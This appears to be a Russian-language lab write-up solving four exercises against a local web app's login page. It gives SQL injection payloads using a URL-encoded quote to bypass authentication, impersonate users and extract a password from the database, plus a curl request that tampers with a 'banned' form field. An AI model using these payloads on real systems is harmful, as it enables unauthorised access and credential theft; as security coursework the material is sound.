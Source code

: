 ## Задание 1 - обойти "защиту" двумя способами:

###     Обойти защиту можно кодированием кавычек. Осуществим вход:
        %27 or 1=1; --
    
###     Войдём под произвольным логином:
        %27 or 1=1 union select %27xexe%27 order by 1 desc; --
    
    
## Задание 2 - обойти клиентскую защиту с помощью curl:
    curl 'http://localhost:8080/signin' \
      -v\
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
      -H 'Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7' \
      -H 'Cache-Control: max-age=0' \
      -H 'Connection: keep-alive' \
      -H 'Content-Type: application/x-www-form-urlencoded' \
      -H 'If-None-Match: W/"a-H50XstGsGKp4UEvDuCvu61ziNnA"' \
      -H 'Origin: http://localhost:8080' \
      -H 'Referer: http://localhost:8080/login.html' \
      -H 'Sec-Fetch-Dest: document' \
      -H 'Sec-Fetch-Mode: navigate' \
      -H 'Sec-Fetch-Site: same-origin' \
      -H 'Sec-Fetch-User: ?1' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36' \
      -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"' \
      -H 'sec-ch-ua-mobile: ?0' \
      -H 'sec-ch-ua-platform: "macOS"' \
      --data-raw 'name=Jacob&pass=Jacob&banned=false' \
      --compressed
      
      
## Задание 3 - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded):
    %27 or 1=1; --
    
## Задание 4 - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД: 
    %27 or 1=1 union select (select min(pass) from users) order by 1 asc limit 1; --
